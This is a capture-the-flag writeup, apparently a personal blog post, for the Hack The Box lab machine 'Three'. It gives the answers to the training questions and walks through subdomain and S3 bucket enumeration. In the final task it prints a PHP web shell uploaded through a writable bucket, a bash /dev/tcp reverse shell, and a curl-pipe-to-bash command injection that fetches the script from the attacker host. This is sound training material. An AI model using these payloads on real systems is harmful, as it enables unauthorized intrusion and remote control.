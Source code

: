 ```yaml
---
title: 'Three - HTB Starting Point Tier 1'
description: 'Writeup for Three box'
pubDate: 'Dec 3 2024'
heroImage: '/blog-placeholder-2.jpg'
---
```


## Three
*Subdomain enumeration, S3 traversal, PHP, Bash, reverse shell*

**Task 1**  
How many TCP ports are open?  
2

```bash
$ nmap -sV $TARGET -p1-10000 --min-rate=5000

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.64 seconds
```

**Task 2**  
What is the domain of the email address provided in the "Contact" section of the website?  
`thetoppers.htb`


**Task 3**  
In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?  
`/etc/hosts`


**Task 4**  
Which sub-domain is discovered during further enumeration?  

Website enumeration can be done using gobuster. Will try its DNS enumeration mode (after adding `thetoppers.htb` to my `/etc/hosts` file):  
```bash
$ gobuster dns -d thetoppers.htb -w ~/Documents/git/SecLists/Discovery/DNS/shubs-subdomains.txt
```

The above didn't return any results. Returning to a concept explained in an earlier Starting Point box (and referring to the writeup), it is possible that this site is using name-based virtual hosting. In that case, we can use `gobuster vhost`

```bash
$ gobuster vhost --apend-domain -u thetoppers.htb -w ~/Documents/git/SecLists/Discovery/DNS/subdomains-top1million-5000.txt

Found: s3.thetoppers.htb Status: 404 [Size: 21]
```

N.b. My internet dies very quickly when using gobuster, and I lose connectivity. 


**Task 5**  
Which service is running on the discovered sub-domain?  
Amazon S3


**Task 6**  
Which command line utility can be used to interact with the service running on the discovered sub-domain?  
`awscli`


**Task 7**  
Which command is used to set up the AWS CLI installation?  
`aws configure`


**Task 8**  
What is the command used by the above utility to list all of the S3 buckets?  
`aws s3 ls`


**Task 9**  
This server is configured to run files written in what web scripting language?    
`php`

> **Learning opportunity**
>
> There is a browser extension called Wappalyzer. It can be used to identify all the different components that a website is using, such as programming language(s), web servers, cdns, operating systems, etc.


**Task 10**  
Submit root flag  

Using the AWS CLI, we can explore the S3 buckets hosted here
```bash
$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2024-12-02 17:40:24 thetoppers.htb


$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2024-12-02 17:40:24          0 .htaccess
2024-12-02 17:40:24      11952 index.php

$ aws --endpoint=http://s3.thetoppers.htb s3 cp s3://thetoppers.htb/index.php ./index.php
download: s3://thetoppers.htb/index.php to ./index.php
```

Based on the above, it seems that `thetoppers.htb` is using the files in this S3 bucket for the site. If so, we might be able to upload a php shell to the bucket and have it execute on the server.

```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
$ aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
$ curl http://thetoppers.htb/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Success! Next, let's try to obtain a reverse shell. First, we'll write up a simple reverse shell bash script:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<HOST_IP>/1337 0>&1
```

Some notes:
* `-i` makes bash interactive
* `>&` redirects stdout and stderr to the proceeding location
* `/dev/tcp/<ip>/<port>` is a special file to allow raw TCP connections
* `0>&1` redirects stdin to come from same location as stdout

The goal is for the target machine to execute this script. There are 2 more items required to perform the exploit: (1) set up a listener on our device, and (2) execute the script on the target. Regarding the first item, to receive the connection we must set up a listener on our device to receive the connection:

```bash
$ nc -nvlp 1337
```

Options:
* `-n` - Numeric only IP addresses, no DNS
* `-v` - Verbose
* `-l` - Listen for inbound connections
* `-p` - Specify the port

Now to execute the reverse shell script on the client, one way it can be done is to set up a local http server to serve the script. From the target, we can curl the file and pipe it into bash:

```bash
$ cd path/to/reverse/shell.sh
$ python3 -m http.server 8000 &
$ curl "http://thetoppers.htb/shell.php?cmd=curl <ip>:8000/shell.sh|bash
```

The request may hang, but you should see a connection made in netcat

```bash
$ nc -nvlp 1337
listening on [any] 1337 ...
$TARGET_IP - - [02/Dec/2024 19:28:15] "GET /shell.sh HTTP/1.1" 200 -
connect to [$HOST_IP] from (UNKNOWN) [$TARGET_IP] 36496
bash: cannot set terminal process group (1492): Inappropriate ioctl for device
bash: no job control in this shell
www-data@three:/var/www/html$ whoami
whoami
www-data
www-data@three:/var/www/html$ ls
ls
images
index.php
shell.php
www-data@three:/var/www/html$ cd ..
cd ..
www-data@three:/var/www$ ls
ls
flag.txt
html
www-data@three:/var/www$ cat flag.txt
cat flag.txt
<FLAG>
```

Read a high level summary of this challenge [here](/blog/htb-starting-point/reverse-shell-php-and-bash/).